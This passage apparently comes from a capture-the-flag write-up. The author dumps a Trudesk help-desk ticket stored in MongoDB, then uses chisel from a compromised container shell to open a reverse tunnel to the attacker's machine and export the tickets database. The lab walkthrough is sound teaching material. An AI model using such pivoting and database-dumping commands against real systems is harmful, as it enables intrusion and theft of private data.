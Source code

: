     { "_id" : ObjectId("62478d83eadb13001b66b62c"), "deleted" : false, "status" : 0, "tags" : [ ], "subscribers" : [ ObjectId("6243c28f1e0d4d001b0740d6"), ObjectId("6243c0be1e0d4d001b0740d4") ], "subject" : "Need help building the CMS", "group" : ObjectId("6244610ff2c8c07f687ba8a4"), "type" : ObjectId("623c8b20855cc5001a8ba137"), "priority" : ObjectId("623c8b24645f88065a113d67"), "issue" : "<p>Hey Jeremy, <br />Can you help me work on the CMS at all this week?  The base install is completed, but I need your expertise to make sure I did everything correctly.</p>\n", "date" : ISODate("2022-04-01T23:40:51.552Z"), "comments" : [ { "deleted" : false, "_id" : ObjectId("62478e3a608eea1532bcd1b9"), "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-01T23:43:54.776Z"), "comment" : "<p>Please don&#39;t expose that application publically.  I told you I would help when I had time and right now I&#39;m just too busy.<br>Build it out if you&#39;d like, but...just don&#39;t do anything stupid.</p>\n" }, { "deleted" : false, "_id" : ObjectId("624f49ca8576ce001bb6702e"), "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-07T20:30:02.359Z"), "comment" : "<p>Don&#39;t worry. I moved it off of the main server and into a container with SSL encryption.</p>\n" } ], "notes" : [ ], "attachments" : [ ], "history" : [ { "_id" : ObjectId("62478d83eadb13001b66b62d"), "action" : "ticket:created", "description" : "Ticket was created.", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-01T23:40:51.573Z") }, { "_id" : ObjectId("62478d94608eea1532bcd1b8"), "action" : "ticket:set:assignee", "description" : "Jeremy Hammond was set as assignee", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-01T23:41:08.431Z") }, { "_id" : ObjectId("62478e3a608eea1532bcd1ba"), "action" : "ticket:comment:added", "description" : "Comment was added", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-01T23:43:54.787Z") }, { "_id" : ObjectId("624f49ca8576ce001bb6702f"), "action" : "ticket:comment:added", "description" : "Comment was added", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-07T20:30:02.380Z") }, { "_id" : ObjectId("624f4a828576ce001bb67031"), "action" : "ticket:comment:updated", "description" : "Comment was updated: 624f49ca8576ce001bb6702e", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-07T20:33:06.175Z") } ], "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "uid" : 1008, "__v" : 4, "assignee" : ObjectId("6243c0be1e0d4d001b0740d4"), "updated" : ISODate("2022-04-07T20:30:02.374Z") }
    

The tickets are a bit of a pain to read directly from Mongo. For one, it’s all
jammed on the screen. But also all the foreign objects are shown like `"owner"
: ObjectId("623c8b20855cc5001a8ba13c")`, which means I can’t even copy this
and pipe it to `jq` on my own system because these things aren’t valid JSON.

I’ll use `mongoexport` to get the results as pure JSON (and it fills out the
pointers as well). I had some issues getting it to work over `proxychains`, so
I’ll start another tunnel with `chisel`:

    
    
    www-data@3c371615b7aa:/tmp$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:27017:172.17.0.4:27017
    2022/11/28 21:59:41 client: Connecting to ws://10.10.14.6:8000
    2022/11/28 21:59:42 client: Connected (Latency 87.048435ms)
    

Now 27017 on my host forwards to 172.17.0.4:27017.

My initial run errors out:

    
    
    oxdf@hacky$ mongoexport --host="127.0.0.1:27017" --db=trudesk --collection=tickets --out=tickets.json
    2022-11-28T22:11:42.292+0000    connected to: 127.0.0.1:27017
    2022-11-28T22:11:42.380+0000    Failed: BSON field 'FindCommandRequest.snapshot' is an unknown field.
    